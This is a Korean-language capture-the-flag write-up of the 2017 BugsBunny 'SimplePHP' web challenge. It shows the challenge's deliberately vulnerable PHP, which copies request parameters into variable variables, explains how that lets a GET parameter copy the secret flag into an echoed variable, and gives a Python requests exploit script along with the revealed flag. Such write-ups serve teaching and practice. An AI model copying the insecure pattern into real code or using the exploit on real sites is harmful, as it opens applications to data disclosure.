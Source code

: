 # 2017 BugsBunny - [WEB] SimplePHP

## Key words

- reference variable
- variable's variable

## Solution

문제에 소스를 제공해주기 때문에 소스를 확인해봅니다.

```php
<?php

include "flag.php";

$_403 = "Access Denied";
$_200 = "Welcome Admin";

if ($_SERVER["REQUEST_METHOD"] != "POST")
    die("BugsBunnyCTF is here :p...");

if ( !isset($_POST["flag"]) )
    die($_403);


foreach ($_GET as $key => $value)
    $$key = $$value;

foreach ($_POST as $key => $value)
    $$key = $value;


if ( $_POST["flag"] !== $flag )
    die($_403);


echo "This is your flag : ". $flag . "\n";
die($_200);

?>
```

Flag를 출력하는 조건은 다음과 같습니다.

- POST Method
- GET, POST에 각각 `flag` 파라미터가 존재
- POST[flag]가 $flag 비교

간단하게 GET과 POST의 flag 파라미터에 '1'을 넣고 전달하면 `This is your flag ...`를 보는 것은 간합니다. 하지만 우리가 넣은 flag 때문에 원본이 지워집니다.

다시 위로 올라가 `foreach ($_GET as $key => $value) $$key = $$value;` 를 봅니다.

변수명에 `$`가 하나씩 더 붙어 있는데 이는 `reference variable`또는 `variable's variable`이라 불리는 가변 변수 입니다.

`$value = "flag"`를 넣게 되면 `$$value = $($value) = $flag`이런식으로 변수 명을 가변적으로 사용 할 수 있습니다.

따라서, 해결 소스는 다음과 같습니다.

## Solution Code

```python
import requests

url    = "http://34.253.165.46/SimplePhp/index.php"
data   = { "flag": "1" }
params = {"_200": "flag"}

r = requests.post(url, data=data, params=params)
print r.content
```

## Result

```
This is your flag : 1
Bugs_Bunny{Simple_PHP_1s_re4lly_fun_!!!}
```